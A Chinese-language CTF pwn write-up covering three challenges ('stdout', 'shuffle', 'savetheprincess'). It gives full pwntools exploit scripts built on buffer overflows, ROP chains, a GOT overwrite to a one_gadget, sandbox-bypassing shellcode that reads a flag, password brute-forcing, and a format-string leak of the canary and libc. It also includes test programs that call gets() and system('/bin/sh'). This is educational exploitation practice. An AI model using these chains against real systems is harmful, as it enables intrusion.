
# stdout


溢出并返回到 vuln

然后 ROP


## 测试
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    //setvbuf(stdout, 0LL, 0, 0LL);
    setvbuf(stdin, 0LL, 2, 0LL);
    char a[20];
    printf("ouput1.\n");
    gets(a);
    printf("ouput2.\n");


    return 0;
}
```

取消注释后

##  绕过 setvbuf(stdout, 0LL, 2, 0LL)

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    setvbuf(stdout, 0LL, 0, 0LL);
    setvbuf(stdin, 0LL, 2, 0LL);
    char a[20];
    printf("ouput1.\n");
    gets(a);
    setvbuf(stdout, 0LL, 2, 0LL);
    printf("ouput2.\n");
    gets(a);

    return 0;
}
```
执行 ` setvbuf(stdout, 0LL, 2, 0LL);` 之后，可以看到之前缓冲区里的内容被输出了

## 或者一直输出直到缓冲区填满
## 使用 system("/bin/sh") 或 onegadget，即使 setvbuf(stdout, 0LL, 0, 0LL); 也能立即回显


```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    setvbuf(stdout, 0LL, 0, 0LL);
    setvbuf(stdin, 0LL, 2, 0LL);
    char a[20];
    printf("ouput1.\n");
    gets(a);
    //setvbuf(stdout, 0LL, 2, 0LL);
    system("/bin/sh");
    gets(a);

    return 0;
}
```


```c
#include <stdio.h>
#include <stdlib.h>
typedef void (*func_ptr)();
func_ptr onegadget;

int main() {
    setvbuf(stdout, 0LL, 0, 0LL);
    setvbuf(stdin, 0LL, 2, 0LL);
    char a[20];
    printf("ouput1.\n");
    char* put_addr=&puts;
    onegadget=put_addr-0x84420+0xe3afe;
    asm("mov r12,0");
    printf("%p",put_addr);
    //setvbuf(stdout, 0LL, 2, 0LL);
    onegadget();
    //system("/bin/sh");


    return 0;
}
```
发现可以



## 参考 [https://starrysky1004.github.io/2024/07/05/2024-shu-qi-xue-xi-ji-lu/#toc-heading-4](https://starrysky1004.github.io/2024/07/05/2024-shu-qi-xue-xi-ji-lu/#toc-heading-4)
显式调用 fflush 函数
流被关闭（调用 fclose）
程序正常终止（调用 exit）


## 思路
gadget 不够，所以用 csu 中的。通过一个特殊的 ROP gadget 修改 GOT 表，再用 gadget 满足 onegadget 的约束条件，最后调用被覆盖的 GOT 表项


## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
p = process('./pwn')
elf=ELF("./pwn")
# p=remote("8.147.128.163",16035)
# gdb.attach(p,"b main")
# pause()

elf=ELF("./pwn")

ret_addr=0x000000000040125D
stdout=0x0000000000404070
csu=0x00000000004013CA 
setvbuf=elf.plt["setvbuf"]
read=elf.got["read"]
put=elf.plt["puts"]
print(hex(read))
rbp=8*b"\xff"
payload=b"a"*0x50+rbp+p64(ret_addr)
p.sendline(payload)
#payload=b"a"*0x1f+rbp+p64(csu)+p64(1)+p64(2)+p64(stdout)+p64(0)+p64(0)+p64(0)+p64(0x00000000004013B0 ) +p64(2)+p64(0)+p64(0)+p64(0)+p64(0)+p64(0)+p64(setvbuf)
# .text:00000000004013B0                 mov     rdx, r14
# .text:00000000004013B3                 mov     rsi, r13
# .text:00000000004013B6                 mov     edi, r12d
# .text:00000000004013B9                 call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
# .text:00000000004013BD                 add     rbx, 1
# .text:00000000004013C1                 cmp     rbp, rbx
# .text:00000000004013C4                 jnz     short loc_4013B0
# .text:00000000004013CA                 pop     rbx
# .text:00000000004013CB                 pop     rbp
# .text:00000000004013CC                 pop     r12
# .text:00000000004013CE                 pop     r13
# .text:00000000004013D0                 pop     r14
# .text:00000000004013D2                 pop     r15
# .text:00000000004013D4                 retn

# 0x00000000004011fc : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
#extent + csu                                                                                                                                                                                      
payload=b"a"*0x1f+rbp+p64(0x0000000000401287)+p64(csu)+  p64(0x5f6e4-6)+p64(0x0000000000404018+0x3d)+p64(0)+p64(0)+p64(0)+p64(0)  +p64(0x00000000004011fc )  +p64(0x0000000000401287)
p.sendline(payload)

p.interactive()


```



#  shuffle



用 openat、mmap、writev 读取 flag，或者 openat preadv2 writev 等




用零字节绕过 shuffle（零字节前最多只能有一个非零字节）
然后写 shellcode 即可（没有栈，用 mmap 分配的内存充当栈，存放字符串和 iovec 结构体）
## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
p = process('./pwn')
elf=ELF("./pwn")
# p=remote("8.147.128.163",16035)
gdb.attach(p,"b main")
pause()


shellcode = '''mov eax,0 '''  #寄存器都被设置为零 push 0出现段错误
# shellcode += shellcraft.openat(0xffffff9c,"flag",0)#openat(AT_FDCWD,"flag",O_RDONLY)
# shellcode +=shellcraft.mmap(0,0x100,1, 1,3,0) #mmap(0,0x100,PROT_READ, MAP_SHARED,3,0)
# shellcode +=shellcraft.writev(1,'rax',0x100)
#  0x1337000:	mov    rax,0x0
# => 0x1337007:	push   0x67616c66
#    0x133700c:	mov    rsi,rsp
#    0x133700f:	mov    edi,0xffffff9c
#    0x1337014:	xor    edx,edx
#    0x1337016:	xor    eax,eax
#    0x1337018:	mov    ax,0x101
#    0x133701c:	syscall 
#    0x133701e:	push   0x1
#    0x1337020:	pop    r10
#    0x1337022:	push   0x3
#    0x1337024:	pop    r8
#    0x1337026:	xor    r9d,r9d
#    0x1337029:	xor    edi,edi
#    0x133702b:	mov    esi,0x1010201
#    0x1337030:	xor    esi,0x1010301
#    0x1337036:	mov    rdx,r10
#    0x1337039:	push   0x9
#    0x133703b:	pop    rax
#    0x133703c:	syscall 
#    0x133703e:	push   0x1
#    0x1337040:	pop    rdi
#    0x1337041:	xor    edx,edx
#    0x1337043:	mov    dh,0x1
#    0x1337045:	mov    rsi,rax
#    0x1337048:	push   0x14
#    0x133704a:	pop    rax
#    0x133704b:	syscall 

shellcode+='''
mov rdi,0
mov rsi,0x10
mov rdx,3
mov r10,0x22
mov r8,0xffffffff
mov r9,0
mov rax,0x9
syscall
mov rsp,rax
add rsp,24
push 0x67616c66

mov edi, 0xffffff9c
mov    rsi, rsp
xor    edx,edx
xor    eax,eax
mov    ax,0x101
syscall 
mov rdi,0
mov rsi,0x100
mov rdx,1
mov r10,1
mov r8,3
mov r9,0
mov rax,0x9
syscall

push 0x20
push rax
mov rdi,0x1
mov rsi,rsp
mov rdx,1
mov rax,0x14
syscall
'''
payload=asm(shellcode)
p.sendline(payload)
p.interactive()
```
测试代码如下，照着它写 shellcode 即可

```c
#include<stdio.h>
#include<unistd.h>
#include<sys/stat.h>
#include<fcntl.h>
#include<sys/types.h>
#include <sys/mman.h>
#include <errno.h>
#include <sys/uio.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
int main()
{
    int fd = openat(AT_FDCWD,"flag",O_RDONLY);
    if(fd==-1){
        printf("openat error!");
    }
    char*addr=mmap(0,0x100,PROT_READ, MAP_SHARED,fd,0);
    char*addr_=mmap(NULL, 0x10, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    write(1,addr,0x100);


    struct iovec iov;
    char str[] = "Hello ";
    
    // 准备 iovec 结构体
    iov.iov_base = str;
    iov.iov_len  = strlen(str);

    // 使用 writev() 写入数据
    ssize_t n = writev(1, &iov, 1);


    return 0;
}

```


# savetheprincess



用 openat+pread+write 绕过









没有时间限制也没有次数限制，所以可以爆破，26*7 次。然后触发格式化字符串泄露 canary 和 libc 地址，再溢出并 ROP 绕过沙箱

把 buf 填满，打印 buf 时会把 i 也一起打印出来，这样就能判断 i 是否自增，从而判断当前字节是否爆破正确


找不到控制第六个参数的 gadget，所以把 mmap 换成 pread，或者**用 mprotect 让栈可执行（注意要页对齐），再用 openat、mmap、write 写 shellcode 读取 flag**
pread 无法从终端读取，所以要事先泄露一个栈地址，把 flag 文件名放在栈上
## pread
`pread()` 函数在 Linux 和类 Unix 系统中用于从文件描述符指定的文件中读取数据，但与普通的 `read()` 函数不同，`pread()` 允许指定从文件中的哪个偏移处开始读取

`pread()` 的原型如下：

```c
#include <unistd.h>

ssize_t pread(int fd, void *buf, size_t count, off_t offset);
```

### 参数

- `fd`：文件描述符，指向要从中读取数据的文件。
- `buf`：指向存放读取数据的缓冲区的指针。
- `count`：要读取的字节数。
- `offset`：读取操作的起始偏移，相对于文件开头，以字节为单位。

### 返回值

`pread()` 返回实际读取的字节数。如果读取失败，函数返回 `-1`，并设置 `errno` 变量来指示错误原因。

### 示例代码

下面是一个使用 `pread()` 的代码示例：

```c
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>

int main(void) {
    int fd;
    char buffer[100];
    off_t offset = 100;  // 从文件的第100字节开始读取
    ssize_t bytes_read;

    // 打开文件
    fd = open("testfile.txt", O_RDONLY);
    if (fd == -1) {
        perror("open");
        exit(EXIT_FAILURE);
    }

    // 使用 pread 从文件的特定位置读取数据
    bytes_read = pread(fd, buffer, sizeof(buffer), offset);
    if (bytes_read == -1) {
        perror("pread");
        close(fd);
        exit(EXIT_FAILURE);
    }

    // 输出读取的数据
    buffer[bytes_read] = '\0';  // 确保字符串以 null 字符终止
    printf("Read %ld bytes: %s\n", bytes_read, buffer);

    // 关闭文件描述符
    close(fd);

    return 0;
}
```


## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
p = process('./pwn')
elf=ELF("./pwn")
lib = ELF('./libc.so.6')
# p=remote("8.147.128.163",16035)
gdb.attach(p,"b main")
pause()


password=""
for i in range(8):
    for j  in range(26):
        p.sendlineafter(b"> \n",str(1))
        pwd=password
        pwd+=chr(ord("a")+j )
        p.sendafter(b"please input your password: \n",pwd.ljust(10,"a"))
        result=p.recvuntil(b"!!!\n",drop=True)
        print(pwd," ",result)
        print(i+1," ",result)
    
        if b"successfully" in result:
            password=pwd
            print("suceessful")
            payload=b"%9$p%11$p%10$p%15$p"   # canary pie libc
            p.send(payload)
            break
        if i+1 in result:
            password=pwd
            print("right")
            break

        print("error")


canary=int(p.recv(18),16)
pie=int(p.recv(14),16)-0x17be
stack=int(p.recv(14),16)+0xa8+0x10
libc=int(p.recv(14),16)-0x29d90
openat_add=lib.sym["openat"]+libc
pread_add=lib.sym["pread64"]+libc
write_add=lib.sym["write"]+libc
print(hex(canary),hex(pie),hex(libc))
p.sendlineafter(b"> \n",str(2))

pop_rdi=libc+0x000000000002a3e5
pop_rsi=libc+0x000000000002be51
pop_rdx_r12=libc+0x000000000011f2e7
pop_r10=pie+0x00000000000017d5
pop_r8_mov_rax_1=libc+0x00000000001659e6
pop_rax=libc+0x0000000000045eb0
syscall=libc+0x0000000000029db4
pop_rdx=libc+0x000000000003d1ee

payload=56*b"a"+p64(canary)+p64(0)+p64(pop_rdi) +p64(0xffffffffffffff9c)+p64(pop_rsi)+p64(stack)+p64(pop_rdx_r12)+p64(0)+p64(0)+p64(openat_add)
payload+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+ p64(pie+0x4000)+p64(pop_rdx_r12)+p64(0x10)+p64(0x10)+p64(pop_rdx)+p64(0)+p64(pread_add)
payload+=p64(pop_rdi)+p64(1)+p64(pop_rsi)+ p64(pie+0x4000)+p64(pop_rdx_r12)+p64(0x10)+p64(0x10)+p64(write_add)
payload+=b"flag\x00"
p.sendlineafter(b"Attack the dragon!!\n",payload)
p.interactive()


```



